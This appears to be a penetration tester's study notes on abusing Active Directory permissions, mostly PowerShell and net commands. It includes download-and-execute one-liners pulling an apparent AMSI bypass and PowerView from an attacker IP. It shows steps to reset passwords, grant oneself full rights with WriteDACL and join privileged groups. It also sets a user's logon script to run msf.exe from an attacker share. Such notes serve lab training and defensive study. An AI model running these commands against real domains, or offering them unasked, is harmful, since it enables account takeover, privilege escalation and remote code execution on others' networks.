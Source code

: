 ### Theory
- See diagram:  https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#activedirectory
- DACLs & ACEs - first match principle; ACE structure as SDDL - ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
    - apply to users, computers, groups, etc.
- Abusable Permissions:
    GenericAll - full rights to the object (add users to a group or reset user's password); abused with Set-DomainUserPassword or Add-DomainGroupMember
    GenericWrite - update object's attributes (i.e logon script); abused with Set-DomainObject
    WriteOwner - change object owner to attacker controlled user take over the object; abused with Set-DomainObjectOwner
    WriteDACL - modify object's ACEs and give attacker full control right over the object; abused with Add-DomainObjectACL
    AllExtendedRights - ability to add user to a group or reset password; abused with Set-DomainUserPassword or Add-DomainGroupMember
    ForceChangePassword - ability to change user's password; abused with Set-DomainUserPassword
    Self (Self-Membership) - ability to add yourself to a group
    AddMembers - abused with Add-DomainGroupMember

### Enumeration with PowerView
- Any domain user can query DACL for any object
`. .\powerview.ps1`
`(new-object system.net.webclient).downloadstring('http://192.168.49.121/amsi.txt') | IEX`
`(new-object system.net.webclient).downloadstring('http://192.168.49.121/PowerView.ps1') | IEX`
`Get-ObjectAcl -Identity <user/computer/thing>`
    `ConvertFrom-SID "S........."`
    - Better:  `Get-ObjectAcl -Identity <user/computer/thing> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}`
- Domain Users we have rights over:  `Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
- Domain Groups we have rights over:  `Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`

### Other Tools
- Checking individual objects - aced.py:
    `python3 aced.py prod.abc.com/user:pass@192.168.1.70`
    `"Domain Admins", etc.`
- **BloodHound**

### Abusing GenericAll
- User - change password:  `net user testservice1 h4x /domain`
    - Also possible if you have ForceChangePassword or AllExtendedRights right
- Group - add yourself:  `net group testgroup <user> /add /domain`
    - Also possible with AllExtendedRights or GenericWrite

### Abusing WriteDACL
- User:
    - Step 1 - give yourself rights:  `Add-DomainObjectAcl -TargetIdentity testservice2 PrincipalIdentity offsec -Rights All`
        - Confirm:  `Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`
    - Step 2 - use rights (change pw):  `net user testservice2 h4x /domain`
- Group:
    - Step 1 - give yourself rights:  `Add-DomainObjectAcl -TargetIdentity "MAILADMINS" -PrincipalIdentity SqlSvc -Domain tricky.com -Rights All -Verbose`
    - Step 2 - use rights (add yourself):  `Add-DomainGroupMember -Identity MAILADMINS -Domain TRICKY.com -Members SqlSvc`

### Abusing GenericWrite
- User: overwrite logon script
    `Set-ADObject -SamAccountName TestService3 -PropertyName scriptpath -PropertyValue "\\192.168.45.210\share\run.txt"`
    `Set-DomainObject TestService3 -Set @{'msTSTnitialProgram'='\\192.168.45.210\share\msf.exe'} -Verbose`
    `Set-DomainObject TestService3 -Set @{'scriptPath'='\\192.168.45.210\share\msf.exe'} -Verbose`
- Group: add user (yourself)
- Computer: Resource-Based Constrained Delegation Attack...